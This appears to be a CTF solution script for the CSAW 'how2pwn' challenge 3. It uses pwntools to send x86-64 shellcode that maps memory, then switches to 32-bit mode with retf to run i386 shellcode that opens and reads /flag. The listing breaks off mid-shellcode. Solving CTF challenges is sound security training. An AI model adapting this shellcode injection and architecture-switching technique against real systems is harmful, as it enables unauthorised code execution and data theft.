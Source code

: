 ## chal3
```python
from pwn import *
# context.log_level='debug'
debug = 0
if debug:
    p = process("./chal3")
else:
    p = remote("how2pwn.chal.csaw.io",60003)
    # p = remote("0.0.0.0", 60003)
with open("./ticket3",'r') as f:
    ticket = f.read().strip()
p.send(ticket)


context.arch = 'amd64'
shellcode = f'''
xor rax,rax
mov al,0x9
mov rdi,0xcafe0000
mov rsi,0x2000
mov rdx,0x7
mov r10,0x21
xor r8,r8
xor r9,r9
syscall
xor rdi,rdi
mov rsi,rax
xor rdx,rdx
inc rdx
shl rdx,8
xor rax,rax
syscall
mov rax,0x2300000000
xor rsi,rax
push rsi
'''
# retf

# gdb.attach(p)
shellcode = asm(shellcode)+b'\xcb'
print("[+] len of shellcode: "+str(len(shellcode)))
p.sendafter(": \n",shellcode.ljust(0x100,b'\0'))

context.arch='i386'
context.bits=32
flag_path_1 = hex(u32(b"/fla"))
flag_path_2 = hex(u32(b"g\0\0\0"))
shellcode=f'''
mov esp, 0xcafe0100
xor eax,eax
mov al,0x5
push {flag_path_2}
push {flag_path_1}
mov ebx,esp
xor ecx,ecx
xor edx,edx
int 0x80
mov ebx,eax
mov al,0x3
mov ecx,0xcafe0400
mov edx,0x1c00
int 0x80
```

[1]: https://github.com/osirislab